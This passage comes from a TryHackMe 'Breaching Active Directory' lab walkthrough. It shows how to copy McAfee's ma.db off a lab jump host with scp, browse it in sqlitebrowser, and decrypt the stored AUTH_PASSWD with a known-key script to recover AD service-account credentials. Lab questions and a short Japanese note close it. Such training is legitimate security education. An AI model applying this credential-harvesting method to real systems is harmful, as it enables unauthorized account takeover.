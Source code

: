 ```

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db      
               1 File(s)        120,832 bytes     
               2 Dir(s)  39,426,285,568 bytes free
```
We can use SCP to copy the ma.db to our AttackBox:
```
thm@thm:~/thm# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@10.200.4.249's password:
ma.db 100%  118KB 144.1KB/s   00:00
```
To read the database file, we will use a tool called sqlitebrowser. We can open the database using the following command:
```
thm@thm:# sqlitebrowser ma.db
```
Using sqlitebrowser, we will select the Browse Data option and focus on the AGENT_REPOSITORIES table:  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_31.png" width="75%" height="75%">  
We are particularly interested in the second entry focusing on the DOMAIN, AUTH_USER, and AUTH_PASSWD field entries. Make a note of the values stored in these entries. However, the AUTH_PASSWD field is encrypted. Luckily, McAfee encrypts this field with a known key. Therefore, we will use the following old python2 script to decrypt the password. The script has been provided as a downloadable task file or on the AttackBox, it can be found in the /root/Rooms/BreachingAD/task7/ directory.  
Note: The tool we will use here is quite old. It uses Python v2 and relies on an old crypto library. If you cannot get the script to work on your own VM, please make use of the AttackBox. However, there has been a recent update to the application to ensure that it works on Python3 as well, you can download the latest version here: https://github.com/funoverip/mcafee-sitelist-pwd-decryption  
You will have to unzip the mcafee-sitelist-pwd-decryption.zip file:
```
thm@thm:~/root/Rooms/BreachingAD/task7/$ unzip mcafeesitelistpwddecryption.zip
```
By providing the script with our base64 encoded and encrypted password, the script will provide the decrypted password:
```
thm@thm:~/root/Rooms/BreachingAD/task7/mcafee-sitelist-pwd-decryption-master$ python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
Crypted password   : <AUTH PASSWD VALUE>
Decrypted password : <Decrypted Pasword>
```
We now once again have a set of AD credentials that we can use for further enumeration! This is just one example of recovering credentials from configuration files. If you are ever able to gain a foothold on a host, make sure to follow a detailed and refined methodology to ensure that you recover all loot from the host, including credentials and other sensitive information that can be stored in configuration files.

----------------------------------------Answer the questions below--------------------------------------------------  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_32.png" width="75%" height="75%">  
What is the username of the AD account associated with the McAfee service?  
What is the password of the AD account associated with the McAfee service?  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_33.png" width="75%" height="75%">  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_34.png" width="75%" height="75%">  
このタスクの説明通りに実施すると、ma.db内のユーザ・パスワードが確認できた。

